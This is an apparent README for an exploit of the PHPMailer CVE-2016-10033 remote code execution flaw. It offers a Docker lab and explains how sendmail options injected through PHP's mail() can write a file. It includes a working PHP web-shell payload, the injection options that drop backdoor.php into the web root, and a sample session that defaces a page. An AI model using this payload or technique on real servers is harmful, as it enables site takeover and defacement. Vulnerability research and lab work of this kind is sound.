

# PHPMailer < 5.2.18 Remote Code Execution
[](https://hub.docker.com/r/vulnerables/cve-2016-10033/)


PHPMailer is the world's most popular transport class, with an estimated 9 million users worldwide. Downloads continue at a significant pace daily. Used by many open-source projects: WordPress, Drupal, 1CRM, SugarCRM, Yii, Joomla! and many more

PHPMailer before its version 5.2.18 suffer from a vulnerability that could lead to remote code execution (RCE). The mailSend function in the isMail transport in PHPMailer, when the Sender property is not set, might allow remote attackers to pass extra parameters to the mail command and consequently execute arbitrary code via a \" (backslash double quote) in a crafted From address.

### Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033

And it will spawn a vulnerable web application on your host on `8080` port


### Exploit

To exploit this target just run:

    ./exploit host:port

If you are using this vulnerable image, you can just run:

    ./exploit localhost:8080

After the exploitation, a file called backdoor.php will be stored on the root folder of the web directory. And the exploit will drop you a shell where you can send commands to the backdoor:

    ./exploit.sh localhost:8080
    [+] CVE-2016-10033 exploit by opsxcq
    [+] Exploiting localhost:8080
    [+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
    [+] Running whoami
    www-data
    RemoteShell> echo 'Defaced' > /www/index.php
    [+] Running echo 'Defaced' > /www/index.php

And if you visit the page again, you will see this:



### Vulnerable code

Before this [commit](https://github.com/PHPMailer/PHPMailer/commit/4835657cd639fbd09afd33307cef164edf807cdc) in [class.phpmailer.php](https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/src/class.phpmailer.php#L1445) in a certain scenarion there is no filter in the sender's email address special chars. This flaw can lead to a remote code execution, via ```mail``` function [here](https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/src/class.phpmailer.php#L700).

### Notes about PHP mail() function exploitation

The exploitation of PHP mail() function isn't a new thing, but it still alive and people still using it. To explain how it works, lets look at how mail() function is defined:

```php
bool mail ( string $to , string $subject , string $message [, string $additional_headers [, string $additional_parameters ]] )
```

There are several exploitation methods for different results, we will focus on the exploitation of the **5th parameter** to get Remote Code Execution (RCE). The parameter `$additional_parameters` is used to pass additional flags as command line options to the program configured to send the email. This configuration is defined by the `sendmail_path` variable.

A security note from [php official documentation](http://php.net/manual/en/function.mail.php):

> The additional\_parameters parameter can be used to pass additional flags as command line options to the program configured to be used when sending mail, as defined by the sendmail_path configuration setting. For example, this can be used to set the envelope sender address when using sendmail with the -f sendmiail option.

> This parameter is escaped by escapeshellcmd() internally to prevent command execution. escapeshellcmd() prevents command execution, but allows to add additional parameters. For security reasons, it is recommended for the user to sanitize this parameter to avoid adding unwanted parameters to the shell command.

Considering the additional parameters that can be injectected we will use `-X` to exploit this flaw. More about the `-X` parameter

    -X logfile
    Log all traffic in and out of mailers in the indicated log file. This should only be used as a last resort for debugging mailer bugs. It will log a lot of data very quickly.

There are also some other interesting parameters that you should know that exist:

    -Cfile
    Use alternate configuration file. Sendmail gives up any enhanced (set-user-ID or set-group-ID) privileges if an alternate configuration file is specified.

And

    -O option=value
    Set option option to the specified value. This form uses long names.

And for `-O` option, the `QueueDirectory` is the most interesting option there, this option select the directory in which to queue messages.

If you want to read the whole list of parameters and options, just `man sendmail` or read it online [here](https://linux.die.net/man/8/sendmail.sendmail)

Based on this information, and the hability to control at least one of the other parameters, we can exploit the host. Bellow the steps for a successful exploitation:

 * Control `$additional_parameters` and another `mail()` parameter
 * Know a **writeable** diretory on target host which is accessible via the target system and user (www-data for example). Usually this directory can be anything bellow `webroot` (aka /var/www/html for another systems, /www for this example)
 * Any PHP payload that you want, we are using a simple `system()` payload in this example, with a spice of base64 and some special characters `|` to make it easier to parse. 
 * Just assembly everything together !

Remember that the `-X` option will write the log file, that will contain among the log information your PHP payload, in the directory that you will inform. An example of a vulnerable PHP code:

```php
$to = 'hacker@server.com';
$subject = '<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>';
$message = 'Pwned';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/www/backdoor.php';
mail($to, $subject, $message, $headers, $options);
```


### Payload

Bellow the payload used in this example

    <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>

### Credits

This vulnerability was found by Dawid Golunski.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
